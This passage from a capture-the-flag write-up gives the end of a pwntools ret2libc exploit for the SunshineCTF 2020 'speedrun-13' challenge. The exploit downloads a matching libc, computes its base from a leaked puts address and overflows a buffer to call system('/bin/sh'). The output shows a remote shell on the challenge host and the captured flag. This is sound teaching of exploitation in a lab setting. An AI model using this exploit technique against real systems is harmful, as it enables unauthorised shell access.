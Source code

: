 ```python
            log.info('getting: ' + libc_url)
            r = requests.get(libc_url, allow_redirects=True)
            open(libc_file,'wb').write(r.content)
    except:
        log.critical('get libc yourself!')
        sys.exit(0)
    libc = ELF(libc_file)

libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))

payload  = 0x3e * b'A'
payload += p32(libc.sym.system)
payload += 4 * b'B'
payload += p32(libc.search(b'/bin/sh').__next__())

p.sendline(payload)
p.interactive()
```

Again, checkout [newpax](https://github.com/datajerk/ctf-write-ups/tree/master/darkctf2020/newpax) for details.  If you're interested in a more robust _automatically-find-me-libc-and-give-me-shellz_, then checkout [babypwn ROP](https://github.com/datajerk/ctf-write-ups/tree/master/cybersecurityrumblectf2020/babypwn#rop-post-aslr-world).

Output:

```bash
# ./exploit_13.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-13/chall_13'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30013: Done
[*] puts: 0xf7e2dcb0
[*] getting: https://libc.rip/download/libc6_2.23-0ubuntu11.2_i386.so
[*] '/pwd/datajerk/sunshinectf2020/speedrun-13/libc6_2.23-0ubuntu11.2_i386.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0xf7dce000
[*] Switching to interactive mode

$ id
uid=1000(chall_13) gid=1000(chall_13) groups=1000(chall_13)
$ ls -l
total 12
-rwxr-xr-x 1 root root     7380 Nov  7 07:49 chall_13
-rw-r----- 1 root chall_13   34 Nov  7 08:52 flag.txt
$ cat flag.txt
sun{almost-easy-61ddd735cf9053b0}
```
